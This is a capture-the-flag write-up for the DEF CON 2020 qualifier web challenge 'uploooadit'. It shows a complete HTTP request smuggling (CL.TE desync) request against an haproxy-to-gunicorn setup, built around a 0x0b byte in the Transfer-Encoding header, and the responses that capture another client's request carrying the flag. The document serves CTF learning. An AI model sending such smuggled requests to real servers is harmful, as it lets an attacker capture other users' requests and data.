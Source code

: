 # DEF CON CTF Qualifier 2020 – uploooadit

* **Category:** web
* **Points:** 110

## Challenge

> https://uploooadit.oooverflow.io/
> 
> Files:
> 
> [app.py](app.py) 358c19d6478e1f66a25161933566d7111dd293f02d9916a89c56e09268c2b54c
>
> [store.py](store.py) dd5cee877ee73966c53f0577dc85be1705f2a13f12eb58a56a500f1da9dc49c0

[Official solution here.](https://github.com/o-o-overflow/dc2020q-uploooadit)

## Solution

With this web application you can submit a text content to a remote S3 bucket defining a GUID for the key and then retrieving the same text content via the GUID.

The functionality endpoint is `/files/`. The GUID can be set with `X-guid` HTTP header.

Analyzing the two given files ([app.py](app.py) and [store.py](store.py)) you can discover that no intended vulnerabilities are present.

Analyzing responses, you can discover some interesting HTTP headers:
* `Server`;
* `Via`;
* `X-Served-By`.

```
GET /files/00000000-0000-0666-1234-0000ffa20000 HTTP/1.1
Host: uploooadit.oooverflow.io


HTTP/1.1 404 NOT FOUND
Server: gunicorn/20.0.0
Date: Sat, 16 May 2020 13:20:13 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 232
Via: haproxy
X-Served-By: ip-10-0-0-183.us-east-2.compute.internal

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

It seems that the architecture is composed by a proxy (`haproxy` 1.9.10) and different hosts behind it (`gunicorn` 20.0.0) which run the application.

Considering the infrastructure, this seems to be an *[HTTP Desync Attack](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn) CL.TE* scenario.

Other information can be found [here](https://nathandavison.com/blog/haproxy-http-request-smuggling) and [here](https://blog.deteact.com/gunicorn-http-request-smuggling/).

The malicious HTTP request will be the following (the char between `Transfer-Encoding:` and `chunked` is `0x0b`).

```
POST /files/ HTTP/1.1
Host: uploooadit.oooverflow.io
Content-Length: 175
Content-type: text/plain
Connection: keep-alive
X-guid: 00000000-0000-0666-1234-0000ffa20000
Transfer-Encoding:chunked

0

POST /files/ HTTP/1.1
Host: uploooadit.oooverflow.io
Connection: close
x-guid: 00000000-0000-0666-1234-0000ffa20000
Content-Type: text/plain
Content-Length: 387

A

```

Which will give the following answer.

```
HTTP/1.1 201 CREATED
Server: gunicorn/20.0.0
Date: Mon, 18 May 2020 00:31:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Via: haproxy
X-Served-By: ip-10-0-1-95.us-east-2.compute.internal

```

At this point it is sufficient to read the defined object.

```
GET /files/00000000-0000-0666-1234-0000ffa20000 HTTP/1.1
Host: uploooadit.oooverflow.io


```

Which will return a POST request containing the flag.

```
HTTP/1.1 200 OK
Server: gunicorn/20.0.0
Date: Mon, 18 May 2020 00:31:09 GMT
Content-Type: text/plain
Content-Length: 387
Via: haproxy
X-Served-By: ip-10-0-1-95.us-east-2.compute.internal

APOST /files/ HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: invoker
Accept-Encoding: gzip, deflate
Accept: */*
Content-Type: text/plain
X-guid: b6e184e0-593e-4c5a-98da-0df304752a0e
Content-Length: 152
X-Forwarded-For: 127.0.0.1

Congratulations!
OOO{That girl thinks she's the queen of the neighborhood/She's got the hottest trike in town/That girl, she holds her head up so high}

```

The flag is the following.

```
OOO{That girl thinks she's the queen of the neighborhood/She's got the hottest trike in town/That girl, she holds her head up so high}
```